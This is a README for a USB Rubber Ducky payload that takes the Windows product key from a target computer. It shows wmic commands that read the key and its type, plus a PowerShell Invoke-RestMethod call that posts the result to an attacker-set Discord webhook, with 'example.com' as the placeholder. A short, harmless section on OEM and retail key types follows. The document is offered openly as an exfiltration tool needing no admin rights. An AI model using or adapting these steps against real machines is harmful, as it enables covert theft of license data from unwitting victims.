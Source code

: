 # Exfiltrate Windows Product Key

Through this payload, you can export the key information related to the Windows Product Key, knowing its type and the key itself, using a Discord Webhook.

No administrator permissions are required to do this, isn't that absurd, right? :-)

![](./assets/1.png)

**Category**: Exfiltration

## Index

- [Introduction](#exfiltrate-windows-product-key)
- [Note](#note)
- [Dependencies](#dependencies)
- [Settings](#settings)
- [Payload Description](#payload-description)
- [Product Key Types](#product-key-types)
- [Sources](#sources)

## Note

Tested on:
- Windows 11

## Dependencies

- Discord Webhook

## Settings

This portion of the payload serves as a user-defined configuration section where you should input your Discord Webhook URL. You should replace "example.com" with the actual Discord Webhook URL you want to use. The Webhook URL is the endpoint where your payload will send the acquired information related to the Windows Product Key, as well as its type, for exfiltration to a specified Discord channel or server. It's a crucial part of the payload that connects the data extraction process to your Discord platform for further analysis or actions.

```DuckyScript
DEFINE #DISCORD-WEBHOOK example.com
```

## Payload Description

Through this payload, you can export essential information related to the Windows Product Key using a Discord Webhook, ensuring that you identify its type and the key itself.

At the beginning of the payload, the DETECT_READY extension [[1](#sources)] is used to optimize the opening of a PowerShell session on the target.

The following commands are then executed to obtain the necessary information about the Product Key:

1. This command retrieves the currently in-use Product Key:

   ```powershell
   wmic path softwarelicensingservice get OA3xOriginalProductKey
   ```

2. This command helps determine the type of key. You can refer to the [key types section](#key-types) for more details:

   ```powershell
   wmic path softwarelicensingservice get OA3xOriginalProductKeyDescription
   ```

The acquired information is stored in the `$exfiltration` variable, which is subsequently used to create the `$payload` object. This object is then utilized for exfiltration via a Discord Webhook.

**Exfiltration**:

```powershell
Invoke-RestMethod -Uri $hookUrl -Method Post -Body ($payload | ConvertTo-Json) -ContentType 'Application/Json'; exit
```

The `$hookUrl` variable was initialized at the beginning of the payload with the value you need to define before execution.

## Product Key Types

When dealing with Windows Product Keys, it's essential to understand the different types and their characteristics:

- **OEM Keys** (*Original Equipment Manufacturer*):

      **Transferability**: Not supposed to be transferable. These keys are typically tied to the prebuilt PC on which they were originally installed.
      **Usage**: Manufacturers use OEM keys to install Windows on new computers.
      **Procurement**: OEM keys can sometimes be found at discount key vendors, although their use on different hardware may be challenging.

- **Retail Keys** (*aka "Full Packaged Product" Keys*):
      
      **Transferability**: Transferrable. These keys can be moved from one computer to another.
      **Cost**: Retail keys are often more expensive, often exceeding $100.
      **Hidden Keys**: In some cases, a computer may already have a retail key, perhaps from a previous Windows upgrade. Users might not be aware of this until they check.

Understanding these key types is crucial when working with Windows Product Keys, as it can impact their use, transferability, and compatibility with different hardware and scenarios.

*Note: Source of this info [[2](#sources)]*

## Sources

- [1] Detect Ready: https://shop.hak5.org/blogs/usb-rubber-ducky/detect-ready
- [2] Is your Windows Product Key transferrable? https://www.tomshardware.com/how-to/transfer-windows-license-to-new-pc#is-your-windows-product-key-transferrable-3
